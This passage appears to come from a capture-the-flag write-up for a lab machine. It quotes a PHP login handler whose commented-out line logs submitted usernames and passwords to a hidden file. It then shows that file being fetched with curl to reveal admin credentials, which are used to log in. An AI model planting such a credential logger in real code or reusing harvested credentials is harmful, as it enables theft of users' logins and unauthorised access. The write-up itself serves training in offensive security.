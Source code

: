 

    if (isset($_POST['login'])) {
        //file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);
        user::login($_POST['username'], $_POST['password'], $redirect_url, isset($_POST['remember_me']) ? $_POST['remember_me'] : false);
      }



That commented line is interesting. Given the theme of this box is
likely that it's already compromised, maybe the other hacker left that
behind to collect creds. That log file is still on the server:



    root@kali# curl http://10.10.10.207/shop/admin/.log2301c9430d8593ae.txt
    User: admin Passwd: theNextGenSt0r3!~



Logging in at `/shop/admin/login.php` with those creds works:

![](/img/image-20210116143434241.png)